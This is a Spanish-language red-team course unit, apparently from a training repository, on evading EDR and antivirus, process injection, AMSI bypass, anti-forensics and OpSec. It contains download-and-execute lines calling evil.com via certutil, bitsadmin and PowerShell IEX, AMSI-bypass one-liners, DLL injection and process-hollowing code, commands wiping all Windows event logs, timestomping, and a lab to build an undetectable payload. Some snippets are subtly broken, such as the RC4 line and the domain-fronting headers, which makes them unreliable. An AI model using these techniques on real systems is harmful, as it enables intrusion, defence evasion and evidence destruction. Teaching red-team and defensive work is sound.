

# 🛡️ Unidad 6: Evasión de Defensas



## 🎯 Objetivos de Aprendizaje

- **Bypassear** soluciones EDR y antivirus.
- **Ejecutar** técnicas de ocultación y process injection.
- **Evadir** análisis forense y antiforense.
- **Aplicar** principios de OpSec en operaciones de Red Team.

---

## 📚 Contenido Teórico

### 🔓 6.1 EDR Evasion

Los Endpoint Detection and Response (EDR) monitorizan actividad en endpoints para detectar amenazas. El bypass requiere técnicas especializadas.

#### 💻 Living Off the Land Binaries (LOLBins)

Utilizar binarios legítimos del sistema para ejecutar acciones maliciosas.

**Ejemplos comunes**:

| Binary | Función | Comando |
|--------|---------|---------|
| certutil | Descargar archivos | `certutil -urlcache -f url outfile` |
| mshta | Ejecutar HTA | `mshta vbscript:Execute(...)` |
| regsvr32 | Ejecutar DLL | `regsvr32 /s /n /u /i:file.sct` |
| rundll32 | Ejecutar DLL | `rundll32 dllname,Export` |
| wmic | Ejecución remota | `wmic /node:host process call create` |
| msiexec | Instalar malware | `msiexec /q /i http://malicious.msi` |
| bitsadmin | Descargar | `bitsadmin /transfer job url dest` |
| powershell | Múltiples | PowerShell todo |

**Ejemplo de downloader**:
```bash
# Con certutil
certutil -urlcache -f https://evil.com/payload.exe payload.exe

# Con bitsadmin
bitsadmin /transfer myjob https://evil.com/payload.exe %TEMP%\payload.exe

# Con powershell
IEX (New-Object Net.WebClient).DownloadString('http://evil.com/script.ps1')
```

#### 🦴 DLL Hijacking

Vulnerabilidad cuando una aplicación busca DLLs en ubicaciones inseguras.

**Técnica**:
1. Identificar DLLs que la app busca
2. Crear DLL maliciosa con mismo nombre
3. Colocar en directorio de la app o PATH

**Detección**:
```powershell
# Con Process Monitor
procmon.exe /accepteula
# Filter: Operation starts with "CreateFile" and Result is "NAME NOT FOUND"
```

**Ejemplo**:
```c
// malicious.dll
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved) {
    if (fdwReason == DLL_PROCESS_ATTACH) {
        // Execute shellcode
        WinExec("cmd.exe /c calc", SW_HIDE);
    }
    return TRUE;
}
```

#### 💉 Process Injection

Inyectar código en procesos legítimos del sistema.

**DLL Injection**:
```c
// Abrir proceso
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

// Asignar memoria
LPVOID dllPath = VirtualAllocEx(hProcess, NULL, strlen(dllPath), MEM_COMMIT, PAGE_READWRITE);

// Escribir path
WriteProcessMemory(hProcess, dllPath, dllPath, strlen(dllPath), NULL);

// Crear hilo
CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)LoadLibraryA, dllPath, 0, NULL);
```

**Reflective DLL Injection**:
- Carga DLL desde memoria sin archivo en disco
- Más difícil de detectar

**Process Hollowing**:
```c
// Crear proceso suspendido
CreateProcessA(NULL, "svchost.exe", ..., CREATE_SUSPENDED, ...);

// Vaciar contenido
ZwUnmapViewOfSection(processHandle, baseAddress);

// Asignar shellcode
VirtualAllocEx(..., IMAGE_SIZE, ...);
WriteProcessMemory(..., shellcode, ...);

// Resumir hilo
ResumeThread(threadHandle);
```

#### 🚫 AMSI Bypass

Antimalware Scan Interface (AMSI) es una interfaz de Windows que permite a antivirus escanear en memoria.

**Técnicas de bypass**:

**1. Patch de memoria**:
```powershell
# Deshabilitar AMSI
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

**2. obfuscation de strings**:
```powershell
# Strings ofuscados
$s = 'Amsi'+'Utils'
$a = [Ref].Assembly.GetType($s)
$a.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

**3. Reflection**:
```powershell
$am = [System.Management.Automation.AmsiUtils]
$am.GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

---

### 🔬 6.2 Antivirus Bypass

#### 🎭 Obfuscation

**PowerShell obfuscation**:
```powershell
# Concatenación
"Power" + "Shell"

# Variables
$a = "Shell"; "Power$a"

# Format
"{0}{1}" -f "Power","Shell"

# Base64
$b = "UG93ZXJTaGVsbA=="
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($b))
```

**Invoke-Obfuscation**:
```powershell
# Instalar
git clone https://github.com/danielbohannon/Invoke-Obfuscation
cd Invoke-Obfuscation
Import-Module .\Invoke-Obfuscation.psd1

# Usar
Invoke-Obfuscation
```

#### 🔐 Encryption

**AES Encryption**:
```python
from Crypto.Cipher import AES
import base64

def encrypt_shellcode(shellcode, key):
    cipher = AES.new(key, AES.MODE_CBC, iv)
    encrypted = cipher.encrypt(pad(shellcode))
    return base64.b64encode(encrypted)
```

**rc4 encryption**:
```python
import arc4
cipher = arc4 ARC4(key)
encrypted = cipher.encrypt(shellcode)
```

#### 📦 Packers

Comprimen y ofuscan ejecutables.

**UPX**:
```bash
upx -9 -o payload_packed.exe payload.exe
upx -d payload_packed.exe  # Descomprimir
```

**Custom packers**: Scripts que cifran el ejecutable y lo descifran en memoria al ejecutar.

---

### 🕵️ 6.3 Antiforense

#### ⏰ Timestomping

Modificar timestamps de archivos para evadir detección forense.

**Con Metasploit**:
```bash
# post/windows/gather/timestomp
use post/windows/gather/timestomp
set TIMESTOMP_OPTION modify
```

**Con PowerShell**:
```powershell
# Modificar fecha de creación
(Get-Item file.exe).CreationTime = "01/01/2020 00:00:00"

# Modificar último acceso
(Get-Item file.exe).LastAccessTime = "01/01/2020 00:00:00"

# Modificar última escritura
(Get-Item file.exe).LastWriteTime = "01/01/2020 00:00:00"
```

#### 🧹 Artifact Wiping

Eliminar evidencia del sistema.

**Limpiar event logs**:
```powershell
# Clear todos los logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Con PowerShell
Get-WinEvent -ListLog * | ForEach-Object { wevtutil cl $_.LogName }
```

**Eliminar temporales**:
```bash
# Windows
del /q /f /s %TEMP%\*.*

# Linux
rm -rf /tmp/*
```

#### 🧠 Memory Forensics Evasion

**Evitar Volatility**:
- Evitar archivos en disco
- Usar encryptión en memoria
- No usar APIs estándar

**No disk artifacts**:
- Ejecutar solo en memoria (fileless)
- Usar WMI para ejecutar
- Regsvr32 para DLLs

---

### 🔒 6.4 OpSec

Operational Security protege la identidad y operaciones del Red Team.

#### 📋 Principios de OpSec

1. **Segregar identidades**: Separar identidades de operación de identidades personales
2. **Minimizar footprints**: Dejar la menor evidencia posible
3. **Rotar infraestructura**: Cambiar frecuentemente servidores C2
4. **No confiar en defensores**: Asumir que pueden detectarte

#### 📡 C2 Communications

**Protección de tráfico**:
- Usar HTTPS con certificados legítimos
- Domain fronting
- Proxy chains

**Domain Fronting**:
```yaml
# Ejemplo con Cloudflare
Host: maliciousdomain.com
X-Forwarded-Host: legitdomain.com
```

**Sleep masks**:
```c
// Randomizar tiempos de respuesta
void delay() {
    Sleep(random(1000, 5000));
}
```

#### 👣 Covering Tracks

**Después de cada operación**:
1. Eliminar herramientas usadas
2. Limpiar logs
3. Restaurar timestamps
4. Verificar que no quedó evidencia

---

## 🛠️ Herramientas

| Herramienta | Propósito | Instalación |
|-------------|-----------|-------------|
| **Metasploit** | Framework de explotación | msfconsole |
| **msfvenom** | Generar payloads | Incluido en Metasploit |
| **Invoke-Obfuscation** | Ofuscar PowerShell | github.com/danielbohannon |
| **DefenderCheck** | Verificar detección AV | github.com/matterpreter/DefenderCheck |
| **Shikata-Ga-Nai** | Encoder polimórfico | Incluido en Metasploit |
| **UPX** | Packer | `apt install upx` |
| **veil-evasion** | Generar payloads indetectables | github.com/Veil-Framework |
| **mimikatz** | Credential dumping | github.com/gentilkiwi/mimikatz |

---

## 🔬 Laboratorio

> Ver [`labs/lab-unidad6.md`](../labs/lab-unidad6.md) para el escenario completo.

**Escenario**: Desarrollar payload indetectable:
1. Generar payload con msfvenom
2. Ofuscar con Invoke-Obfuscation
3. Verificar detección con DefenderCheck
4. Analizar resultado en VirusTotal

**Entregable**: Payload + análisis de detección antes/después.

---

## 📚 Recursos Adicionales

- [LOLBAS Project](https://lolbas-project.github.io/) — catálogo exhaustivo de binarios, scripts y librerías legítimas de Windows abusables por atacantes
- [AMSI.fail](https://amsi.fail/) — generador de bypasses AMSI ofuscados, útil para comprobar la robustez de detección en entornos Windows
- [ired.team — Process Injection Techniques](https://www.ired.team/offensive-security/code-execution) — referencia técnica detallada con código fuente de DLL injection, hollowing y reflective loading
- [MITRE ATT&CK — Defense Evasion (TA0005)](https://attack.mitre.org/tactics/TA0005/) — catálogo oficial de técnicas de evasión con mitigaciones y detecciones por técnica
- [Windows Event Logging Security](https://github.com/api0cradle/UltimateWindowsSecurity) — recursos para entender y evadir mecanismos de logging en Windows
- [MDSec — Bypassing Antivirus with Shellter](https://www.mdsec.co.uk/2015/07/using-shellter-with-msfvenom/) — whitepaper sobre inyección polimórfica de shellcode en ejecutables PE legítimos

---

## 📖 Bibliografía

- [LOLBAS Project](https://lolbas-project.github.io/)
- [AMSI.fail](https://amsi.fail/)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [DefenderCheck](https://github.com/matterpreter/DefenderCheck)
- [Metasploit Documentation](https://docs.metasploit.com/)
- [Process Injection Techniques](https://www.ired.team/offensive-security/code-execution)
- [Red Team OPSEC](https://blog.zsec.uk/opsec-for-red-team-part-1/)
